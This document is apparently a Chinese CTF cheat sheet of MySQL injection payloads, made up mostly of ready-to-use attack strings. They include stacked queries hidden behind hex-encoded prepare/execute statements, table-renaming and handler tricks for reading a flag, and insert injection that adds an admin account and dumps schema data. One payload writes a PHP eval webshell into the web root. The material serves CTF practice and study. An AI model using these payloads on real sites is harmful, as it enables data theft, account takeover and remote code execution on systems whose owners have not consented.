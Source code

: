 ```sql
#获取表名
?username=1';prepare h from 0x73686f77207461626c6573;execute h;
#获取数据
?username=1';prepare h from 0x73656c656374202a2066726f6d2063746673685f6f775f666c61676173;execute h;
```

```sql
##1.php  <?php eval($_POST[1]);?>
?username=1';prepare h from 0x73656c65637420273c3f706870206576616c28245f504f53545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f312e70687027;execute h;
```

简单情况：`show databases;show tables;show columns from “表名”;`

0x01 重命名

```
通过将`1919810931114514`表改成words表，将该表中的flag改为id，使得一开始的查询语句由 select id from words where id=‘’ 变成 select flag from `1919810931114514` where flag=’’
从而查询出flag
payload: 1';rename table `words` to `a`;rename table `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100);
接着直接 1’ or 1=1# 即可查询出flag。
```

0x02 预处理（set + prepare + execute）

```
因为 set后面是字符串所以我们可以用拼接或者十六进制的方式绕过过滤。

payload:1'; Set @a=concat("sele","ct flag from `1919810931114514`");prepare h from @a;execute h;或者
1'; Set @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare h from @a;execute h;
```

0x03 命令执行

```
介于0x02的方法上，我们还可以深入些，比如写入木马，只需要将 @a后面的字符串修改下即可，比如 @a=select “<?php eval($_POST['a']);?>” into outfile"/var/www/html/1.php"，当然我们不可能直接这么写，需要转成16进制。我们也可以，当然我们更能自己写一个查询语句，不过这样做有些多此一举。
那么如果这道题增加了过滤（ select，set，prepare，rename）怎么办呢？
```

0x04 handler

```
介绍一下这个函数，有类似于select的功能，更强大的是，他可以在不知道字段名的前提下查询出字段的值。
payload：1';handler `1919810931114514` open as aaa;handler aaa read first;
其中的aaa为我们自己定义的名字，first为读第一行数据，与他并列的还有next（读取下一行）；
```

## insert注入

```sql
#改admin密码
password=1',1),('admin','yourpasswd',1),('ac','m

#获取表名
username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()))%23&password=1

#获取列名
username=1',(select group_concat(column_name) from information_schema.columns where table_name='flag'))%23&password=1

#获取数据
username=1',(select group_concat(flagass23s3) from flag))%23&password=1
```

